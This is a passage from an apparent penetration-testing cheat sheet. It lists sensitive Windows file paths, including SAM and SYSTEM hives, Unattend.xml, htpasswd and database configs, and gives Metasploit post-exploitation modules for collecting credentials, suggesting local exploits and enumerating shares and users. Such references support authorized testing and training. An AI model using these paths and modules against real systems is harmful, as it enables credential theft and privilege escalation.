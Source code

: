 ```cmd
C:\Program Files\MySQL\MySQL Server 5.0\my.ini
C:\Program Files\MySQL\MySQL Server 5.1\my.cnf
C:\Program Files\MySQL\MySQL Server 5.1\my.ini
C:\Program Files\MySQL\MySQL Server 5.5\my.cnf
C:\Program Files\MySQL\MySQL Server 5.5\my.ini
C:\Program Files\MySQL\MySQL Server 5.6\my.cnf
C:\Program Files\MySQL\MySQL Server 5.6\my.ini
C:\Program Files\MySQL\MySQL Server 5.7\my.cnf
C:\Program Files\MySQL\MySQL Server 5.7\my.ini
C:\Program Files\php\php.ini
C:\Users\Administrator\NTUser.dat
C:\Windows\debug\NetSetup.LOG
C:\Windows\Panther\Unattend\Unattended.xml
C:\Windows\Panther\Unattended.xml
C:\Windows\php.ini
C:\Windows\repair\SAM
C:\Windows\repair\system
C:\Windows\System32\config\AppEvent.evt
C:\Windows\System32\config\RegBack\SAM
C:\Windows\System32\config\RegBack\system
C:\Windows\System32\config\SAM
C:\Windows\System32\config\SecEvent.evt
C:\Windows\System32\config\SysEvent.evt
C:\Windows\System32\config\SYSTEM
C:\Windows\System32\drivers\etc\hosts
C:\Windows\System32\winevt\Logs\Application.evtx
C:\Windows\System32\winevt\Logs\Security.evtx
C:\Windows\System32\winevt\Logs\System.evtx
C:\Windows\win.ini 
C:\xampp\apache\conf\extra\httpd-xampp.conf
C:\xampp\apache\conf\httpd.conf
C:\xampp\apache\logs\access.log
C:\xampp\apache\logs\error.log
C:\xampp\FileZillaFTP\FileZilla Server.xml
C:\xampp\MercuryMail\MERCURY.INI
C:\xampp\mysql\bin\my.ini
C:\xampp\php\php.ini
C:\xampp\security\webdav.htpasswd
C:\xampp\sendmail\sendmail.ini
C:\xampp\tomcat\conf\server.xml
```

### :luc_gamepad: Metasploit Post Modules

Some useful post-modules to run against msf sessions and do some of this stuff automatically...
```bash
use exploit/windows/local/service_permissions
post/windows/gather/credentials/gpp
run post/windows/gather/credential_collector 
run post/multi/recon/local_exploit_suggester
run post/windows/gather/enum_shares
run post/windows/gather/enum_snmp
run post/windows/gather/enum_applications
run post/windows/gather/enum_logged_on_users
run post/windows/gather/checkvm
```
